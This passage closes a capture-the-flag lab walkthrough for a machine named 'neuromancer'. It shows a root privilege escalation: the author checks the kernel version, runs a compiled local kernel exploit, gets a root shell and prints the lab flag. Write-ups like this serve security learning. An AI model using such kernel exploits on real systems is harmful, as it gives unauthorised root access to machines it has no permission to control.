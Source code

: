   
  
###ROOT SHELL  
  
This is the easy part, just check the kernel version and look for the exploit :/  
  
ta@neuromancer:~$ uname -a  
>Linux neuromancer 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux  
ta@neuromancer:/tmp$ ./44298  
>task_struct = ffff88003734d400  
>uidptr = ffff880035537e44  
>spawning root shell  
root@neuromancer:/tmp# id  
>uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(ta)  
root@neuromancer:/tmp# cat /root/flag.txt  
**be3306f431dae5ebc93eebb291f4914a**  
  
  
  
  
That was a very fun experience. Just thank @_creosote for the work and the awesome lab. 